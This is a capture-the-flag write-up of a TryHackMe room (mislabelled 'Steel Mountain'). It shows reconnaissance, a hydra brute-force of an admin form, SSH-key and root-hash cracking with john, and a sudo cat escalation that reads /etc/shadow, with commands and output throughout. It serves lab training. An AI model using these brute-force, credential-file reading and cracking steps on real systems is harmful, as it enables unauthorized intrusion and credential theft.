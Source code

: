 ```yaml
---
title: THM{Steel Mountain}
author: Anugrah SR
date: 2020-11-12 21:00:00 +0800
categories: [Boot2root,Tryhackme]
tags: [Brute, tryhackme, ssh, nmap, sudo,gobuster, john, windows]
math: true
---
```

# Steel Mountain
## About The Room
*Learn how to brute, hash cracking and escalate privileges in this box!*<br>
* Url: https://tryhackme.com/room/bruteit
* Creator: [ReddyyZ](https://tryhackme.com/p/ReddyyZ)

## Reconnaissance
### Nmap scan
```bash
nmap -sC -sV -T4 10.10.244.141

Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-06 14:38 EST
Nmap scan report for 10.10.244.141
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.01 seconds

```
We have identified two ports
* 22 ssh
* 80 http

### Gobuster
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.244.141  
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.244.141
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2020/11/06 14:35:49 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 314] [--> http://10.10.244.141/admin/]
```
### HTTP
http://10.10.244.141/admin/ is a admin panel
![admin](https://imgur.com/PlNWCcZl.png)

`Looking for username?
Did you checked the source code!`

![source code](https://imgur.com/HJLJuc9l.png)
```html
 <!-- Hey john, if you do not remember, the username is admin -->
```
Bingo! username is `admin`

### Hydra
Brute-forcing admin panel form using hydra with username admin
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.244.141 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -f
```
Now you have the password for the admin panel! let's see what's inside?
![rsa key](https://imgur.com/vxTZKSul.png)
There is also a web flag like THM{xxxxxxxxxxxxxxxxxx}

### RSA private key
Save the rsa file to your local system
#### John
With John, we can crack not only simple password hashes but also SSH Keys
`/usr/share/john/ssh2john.py id_rsa > id_rsa.hashes`

Let's use john and rockyou.txt to try and crack the SSH Key.
```bash
john id_rsa.hash -wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
XXXXXXXXXX       (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:07 DONE (2020-11-06 14:56) 0.1338g/s 1919Kp/s 1919Kc/s 1919KC/sa6_123..*7¡Vamos!
Session completed
```
## Gaining Shell
### SSH and User flag
before using ssh to connect don't forget to change permission of rsa key
`chmod 400 id_rsa`

Now we are ready to pwn the box
`ssh john@10.10.244.141 -i "id_rsa"`
User flag
```bash
john@bruteit:~$ cat user.txt
THM{XXXXXXXXXXXXXXXXXXXXXX}
```
## Privilege escalation
### Root flag
```bash
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```
*If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.*
```bash
    LFILE=file_to_read
    sudo cat "$LFILE"
```
```bash
john@bruteit:~$ LFILE=/root/root.txt
john@bruteit:~$ sudo cat "$LFILE"
THM{XXXXXXXXXXXX}
```
We are asked to find root's password?<br>
Read shadow file and crack the password of Root

```bash
john@bruteit:~$ LFILE=/etc/shadow
john@bruteit:~$ sudo cat "$LFILE"
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
...
```
#### John to crack admin password
```bash
echo "root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::" >root.txt
```
```bash
john root.txt                                                       
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 14 candidates buffered for the current salt, minimum 16 needed for performance.
Warning: Only 10 candidates buffered for the current salt, minimum 16 needed for performance.
Warning: Only 15 candidates buffered for the current salt, minimum 16 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 8 candidates buffered for the current salt, minimum 16 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
xxxxxxx         (root)
1g 0:00:00:02 DONE 2/3 (2020-11-06 15:24) 0.4587g/s 1588p/s 1588c/s 1588C/s 123456..crawford
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Thanks for reading this. Good Luck.
